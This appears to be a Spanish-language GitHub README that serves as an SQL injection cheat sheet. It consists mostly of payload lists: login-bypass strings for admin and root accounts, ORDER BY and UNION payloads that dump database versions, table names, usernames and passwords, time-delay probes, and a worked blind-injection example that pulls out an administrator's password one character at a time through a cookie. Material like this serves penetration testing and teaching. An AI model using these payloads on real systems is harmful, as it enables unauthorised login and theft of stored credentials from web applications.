 # SQLi
This is how SQL Injection works:
- [LoginByPass](https://github.com/erik-451/SQLi/blob/main/LoginByPass.md)
- [PortSwigger CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![SQLi](https://user-images.githubusercontent.com/47476901/124319507-3bbe1600-db72-11eb-976f-872635141ea9.PNG)

### 1- Login inyection
Estos payloads hacen referencia inyeciones de consultas de sql, tambien se pueden usar en los logins para conseguir el usuario de administrador generalmente.
```bash
or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1 #
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*

---

1' or '1'='1

---

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin' or 1=1-- -
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*

---

root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*

root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#
root") or "1"="1"/*
```
------------------------------------------
### 2- Determinar el número de columnas necesarias en un ataque UNION de inyección SQL
```sql
' ORDER BY 1--
```
Podemos ir testeando este payload para determinar cuantas columnas necesitamos. Ej: si con el payload del numero 3 significa que
la posición ORDER BY número 3 está fuera del rango del número de elementos en la lista de selección.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc ...
```

------------------------------------------
### 3- SQL injection UNION attacks
```sql
SELECT A, B FROM table1 UNION SELECT C, D FROM table2
```
Esta consulta SQL devolverá un único conjunto de resultados con dos columnas, que contienen los valores de las columnas A y B en la tabla1 y las columnas C y D en la tabla2.
```sql
union select 1,2-- -
union select 1,@@version
union select all 1,database()
union select all 1,table_schema from information_schema.tables 
union select all 1,table_name from information_schema.tables where table_schema='sysadmin' 
union select all 1,column_name from information_schema.columns where table_name='users' 
union select 1,(select group_concat(username,password) from sysadmin.users) 

' UNION SELECT username, password FROM users--
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc ...
```
------------------------------------------
### 4- Time delays
Los Time Delays crean un tiempo de espera al recibir la peticion cuando se ejecutan.

Delay de 5 segundos:
```sql
')) or sleep(5)='
```
Estos payloads se usan para testear si existe una inyeccion SQL porque no suponen un riesgo para la base de datos.

```sql
')) or sleep(5)='
' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```
------------------------------------------
### 5- Inyección SQL ciega
La inyección SQL ciega surge cuando una aplicación es vulnerable a la inyección SQL, pero sus respuestas HTTP no contienen los resultados de la consulta SQL relevante o los detalles de los errores de la base de datos.
Es decir no se reflejan en la web. Pero una forma es ir comprobando estas consultas através de las cookies de seguimiento.
Por ejemplo:
```http
Cookie: TrackingId= e8IU14F6r1xyz
```
Suponiendo que hay una tabla llamada "Users" con las columnas "Username" y "Password", y un usuario llamado "Administrador". Podemos determinar sistemáticamente la contraseña para este usuario enviando una serie de entradas para probar la contraseña un carácter a la vez.

Para hacer esto, comenzamos con la siguiente entrada:
```sql
Cookie: TrackingId= e8IU14F6r1xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrador'), 1, 1) > 'a
```
Esto devuelve el mensaje "Bienvenido de nuevo", que indica que la condición inyectada es verdadera, por lo que el primer carácter de la contraseña es mayor que a.

A continuación, enviamos la siguiente entrada:
```sql
Cookie: TrackingId= e8IU14F6r1xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrador'), 1, 1) > 'c
```
Esto no devuelve el mensaje "Bienvenido de nuevo", lo que indica que la condición inyectada es falsa, por lo que el primer carácter de la contraseña no es mayor que c.

Finalmente, enviamos la siguiente entrada, que devuelve el mensaje "Bienvenido de nuevo", confirmando así que el primer carácter de la contraseña es b:
```sql
Cookie: TrackingId= e8IU14F6r1xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrador'), 1, 1) = 'b
```
Podemos continuar este proceso para determinar sistemáticamente la contraseña completa para el usuario Administrador.

